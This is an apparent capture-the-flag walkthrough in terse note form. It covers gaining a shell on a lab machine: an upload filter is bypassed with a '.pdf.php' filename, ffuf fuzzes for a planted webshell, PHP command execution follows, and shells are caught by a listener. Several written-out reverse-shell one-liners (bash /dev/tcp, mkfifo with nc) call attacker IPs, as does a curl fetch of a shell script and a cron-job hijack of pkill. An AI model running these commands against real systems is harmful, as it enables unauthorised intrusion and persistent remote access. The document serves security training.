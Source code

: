 fuzz- ffuf
php cmd=id(php command execution)
bash rev shell 
python server
curl - download
.bash_history
ssh reverse
bash tcp rev shell

did my all scans found ssh,http
web had upload.php it was to upload files. but it was only coded to get only .pdf files. these files were connected to /cvs dir. 
the code only check ".pdf " in name. we can upload this since it has .pdf in the name ->1.pdf.php

i thought still hacker had his uploaded shell in /cvs so i did fuzz attack using ffuf

[ffuf -u http://ip/cvs/FUZZ.pdf.php -w /usr/share/wordlists/dir/common.txt]

identify the php variable

[ffuf -u http://ip/cvs/shell.pdf.php?FUZZ=id -w common.txt   ]

since this has php command execution vulnerability we can upload a revshell.sh and execute it and take the remote connection.

[bash -i >& /dev/tcp/10.10.10.10/9001 0>&1 ] - saved this as rshell.sh

created a python server in that dir. and goal is to upload it into server.

[pdf.php?cmd=curl http://10.8.0.247:8000/rshell.sh --output rshell.sh]

[bash rshell.sh]

password could find on .bash_history

log in ssh and givin a reverse shell on ssh

[ssh lachlan@10.10.136.86 'bash -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.8.0.247 9001 >/tmp/f"'] - online rev shell generator- ncmkfifo

check on cron.d/persistence

edit pkill in home/user/bin like this

[bash -c 'exec bash -i &>/dev/tcp/10.4.41.28/5555 <&1']

